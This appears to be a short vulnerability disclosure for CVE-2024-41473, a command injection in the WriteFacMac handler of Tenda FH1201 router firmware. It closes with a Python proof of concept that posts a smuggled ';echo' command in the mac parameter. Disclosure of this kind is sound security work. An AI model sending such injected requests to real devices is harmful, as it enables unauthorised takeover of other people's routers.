


# WriteFacMac

Firmware download website:https://www.tendacn.com/download/detail-3322.html

### CVE number

CVE-2024-41473

### Vulnerability details

Tenda FH1201 v1.2.0.14 has a command injection vulnerability located in the WriteFacMac function.The mac parameter is copied to var without any filtering, and then executed, so an attacker can exploit this vulnerability to execute arbitrary commands



### poc

```python
import requests

ip = '192.168.74.145'


url = "http://" + ip + "/goform/WriteFacMac"
payload = ";echo 'hacker!'"

data = {"mac": payload}
response = requests.post(url, data=data)
print(response.text)
```


